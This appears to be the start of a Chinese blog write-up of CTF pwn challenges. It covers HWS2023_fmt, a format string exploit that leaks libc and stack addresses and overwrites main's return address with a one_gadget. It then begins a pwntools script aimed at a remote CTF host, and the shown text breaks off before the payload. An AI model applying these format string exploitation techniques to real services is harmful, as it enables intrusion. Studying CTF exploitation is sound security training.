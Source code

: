 # pwn-problems_WP

总结一下最近做的pwn题。有些还挺有意思的。本文同步于周报repo && 个人博客。喜欢的话点个star或收藏博客。

[TOC]


### HWS2023_fmt

最近的比赛都非常的喜欢出格式化字符串。栈上的，非栈上的，堆上的。通过这几次比赛的折磨之后，我也发现了格式化字符串类型的题目还是要掌握其本质。不可以一味地依赖于自动化工具。最近这几次比赛中，自动化工具基本是无用的。只有了解了原理，才能自己手写出一份好用的exploit。

首先阅读程序源码，很简单粗暴的两个格式化字符串利用点：

![image-20230724165802240](https://raw.githubusercontents.com/BattiestStone4/imgs/master/2023/07/1690189091.png)

可以想到一个用来泄露libc地址和栈地址，为我们修改主函数的return address为one_gadget做准备，而第二个就直接写入格式化字符串来修改ret_addr。需要注意的是，这里分三次写入，一次修改两个字节。而这三次写入的字节在数字上需要满足递增关系，因此需要多尝试几次。

效果图：

![image-20230724172110143](https://raw.githubusercontents.com/BattiestStone4/imgs/master/2023/07/1690190500.png)

EXP如下：

```python
from pwn import *
import sys
remote_addr = ["123.60.179.52",30207]
libc = ELF('./libc.so.6')
#elf = ELF('')
if len(sys.argv) == 1:
    context.log_level="debug" 
    #p = process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu/", "-g","1234","./stack"]) 
    #p = process(["qemu-aarch64", "-L", ".", "./stack"]) 
    p = process("./fmt_patched")
    context(arch='amd64', os='linux')
    context.terminal = ['tmux', 'splitw', '-h']
if len(sys.argv) == 2 :
    if 'r' in sys.argv[1]:
        p = remote(remote_addr[0],remote_addr[1])
    if 'n' not in sys.argv[1]:
        context.log_level="debug" 
        #context(arch = 'amd64', os = 'linux')
r = lambda : p.recv()
rl = lambda : p.recvline()
rc = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
shell = lambda : p.interactive()
pr = lambda name,x : log.info(name+':'+hex(x))

DEBUG = 0

def debug(bp = None):
    if DEBUG == 1:
        if bp != None:
            gdb.attach(p, bp)
        else:
            gdb.attach(p)

debug('''
```